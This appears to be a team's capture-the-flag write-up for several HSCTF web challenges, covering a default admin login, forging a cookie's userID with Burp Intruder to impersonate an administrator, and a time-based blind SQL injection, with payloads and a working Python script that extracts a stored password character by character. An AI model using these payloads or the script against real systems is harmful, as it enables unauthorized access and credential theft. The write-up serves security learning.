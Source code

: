 # web

## grading
> Solved by: Taz34

Simply login as `admin` using password `admin`
Go to the simple quiz section and here we have the flag.

![](https://i.imgur.com/ppinHMz.png)

```
flag{th3_an5w3r_w4s_HSCTF_0bvi0us1y}
```

---

## message-board
> Solved by: Taz34

I logged in using the given credentials.

Found a cookie named userData with userID and username

![](https://i.imgur.com/HZzaAdD.png)

here userID is `972` and username is `kupatergent`

Now i started looking into the given server code files and in one of the files named app.js
i found this:

![](https://i.imgur.com/SuX3MTK.png)

that indicates that we don’t need password for admin access we just need the correct user id.

So, now i fired up BurpSuite sent the request with cookie to the intruder replaced the username with admin and set the payload parameter at userID

```
Cookie: userData=j%3A%7B%22userID%22%3A%22§9§%22%2C%22username%22%3A%22admin%22%7D
```
![](https://i.imgur.com/YcqzWor.png)

Payload settings:

![](https://i.imgur.com/hvg4MID.png)

Also set up a grep match for flag{ as that is the starting of the flag

![](https://i.imgur.com/5VF3VGA.png)

And now we have to look for a ticked checkbox for flag{ and in the response section of that response we have the flag

![](https://i.imgur.com/4K3oZKR.png)

here we have the flag, we can confirm it on the website by changing the cookie values:

```
userID = 768
username = admin
```

![](https://i.imgur.com/loSsK8P.png)

```
flag{y4m_y4m_c00k13s}
```

---

## NRC - no right click
> Solved By : Starry-Lord

To bypass the right click problem:

```
view-source:https://no-right-click.hsc.tf/useless-file.css
```

![](https://i.imgur.com/euUZBnG.jpg)

---

# big blind
> Solved By : thewhiteh4t


- we are given a login page in this challenge
- the page source does not contain any JS
- After trying several things I found that we get status 500 on using `'` in either username or password field
- we don’t get an error if we use `'` in both fields
- A better test is to use the following :

```
user : ''
pass : '
```

- in the above case we get an error which shows that its due to an un-closed `'`
- we don’t get an error in the following case :

```
user : ''
pass : ''
```

- finally I confirmed that its blind SQL injection by using the following payload :

```
' or sleep(2) and 1=1#
```

- so here it was clear that its MySQL because syntax for others are different
- I used `SUBSTRING` and `SLEEP` to bruteforce the flag one character at a time
- payload :

```
' OR IF(SUBSTRING(pass,1,1)='f',sleep(5),sleep(0))#
```

- Explanation :
    - substring function requires three arguments
    - first argument is the string which we want to check
    - second argument is the position which we want to check
    - third argument is the length we want to check
    - to check one character at a time I incremented second argument each time and kept third argument fixed
- Usage of `IF` :
    - If uses three arguments
    - first is the condition
    - second is action if condition is `True`
    - third is action if condition is `False`
    - so when we find a match we will see a sleep of 5 seconds else page will load immediately
- Automation :

```python
from requests import post, ReadTimeout

url = 'https://big-blind.hsc.tf/'
charset = '_{}flagisodnbcehjkmpqrtuvwxyz'
flag = ''
counter = 0

while flag.endswith('}') != True:
    counter += 1
    for char in charset:
        payload = {
            'user': 'twh',
            'pass': f"' OR IF(SUBSTRING(pass,{counter},1)='{char}',sleep(5),sleep(0))#"
        }
        try:
            r = post(url, data=payload, timeout=3)
        except ReadTimeout:
            flag += char
            print(f'FLAG : {flag}')
            break
```

- output :

![](https://i.imgur.com/fAdPjA5.png)

---

## Digits of Pi 1
> Solved By : Starry-Lord

First thing, check the cells and find a formula. 

![](https://i.imgur.com/MT1NzjD.png)

Formula seems to be pointing to another sheet's called Source and its range 'A:B'. 

When you use spreadsheets, the accessibility tools actually help in un hiding hidden sheets, like the Source sheet here. 

To activate accessibility tools, go to Tools ('Outils' on the picture), and select Accessibility tools. 

![](https://i.imgur.com/2Rx5UPs.png)

Accessibility Tool include a way to call a range from the document so Monkey see🐒, Monkey do 🐒:

![](https://i.imgur.com/vlt5BiM.png)

**Note: it turns out you can reach a hidden sheet's full range by just typing its name ('Source' instead of 'Source'!A:B)**

It reveals the hidden sheet! On the bottom left you can see it got added to the panes. 

![](https://i.imgur.com/DJVGo4h.png)

And as suspected, you can find the flag in there somewhere. Thanks to my team mates for finding the flag for me

![](https://i.imgur.com/7ncbEkI.png)